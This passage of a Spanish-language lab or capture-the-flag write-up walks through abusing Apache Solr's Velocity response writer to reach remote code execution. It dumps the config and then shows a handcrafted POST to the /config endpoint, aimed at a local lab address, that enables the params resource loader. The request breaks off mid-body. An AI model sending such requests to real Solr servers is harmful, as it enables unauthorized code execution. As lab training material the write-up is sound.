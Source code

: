 ```bash
        "never304":true,
        "etagSeed":"Solr",
        "lastModFrom":"opentime",
        "cacheControl":null},
      "requestParsers":{
        "multipartUploadLimitKB":2147483647,
        "formUploadLimitKB":2147483647,
        "addHttpRequestToContext":false}},
    "indexConfig":{
      "useCompoundFile":false,
      "maxBufferedDocs":-1,
      "ramBufferSizeMB":100.0,
      "ramPerThreadHardLimitMB":-1,
      "writeLockTimeout":-1,
      "lockType":"native",
      "infoStreamEnabled":false,
      "metrics":{}},
    "peerSync":{"useRangeVersions":true}}}
```

De todos los parametros nuestro objetivo es alterar este para que puedamos derivarlo a un **RCE**:
```bash
"params.resource.loader.enabled":"false"},
```
### Ejecucion del Ataque
Antes de reenviar la peticion manipularemos el valor asociado a ese parametro seteandolo a **TRUE** el cargador de recursos de la plantilla **velocity**
De primeras esta asi:
```json
"velocity":{
        "startup":"lazy",
        "name":"velocity",
        "class":"solr.VelocityResponseWriter",
        "template.base.dir":"",
        "solr.resource.loader.enabled":"true",
        "params.resource.loader.enabled":"false"},
```

Ahora nosotros como atacante tendremos que alterar y lograr setear el valor en **true** de forma manual
Desde **Request** inyectamos lo siguiente: de tal forma que todo nuestra peticion por **POST** quedarea asi:
El cambio a **POST** es manual, osea que nosotros los escribamos
```bash
POST /solr/0xDojo/config HTTP/1.1
Host: 172.17.0.2:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 269

{
    "update-queryresponsewriter":{  
    "startup":"lazy",  
    "name":"velocity",  
    "class":"solr.VelocityResponseWriter",  
    "template.base.dir":"",  
    "solr.resource.loader.enabled":"true",  
```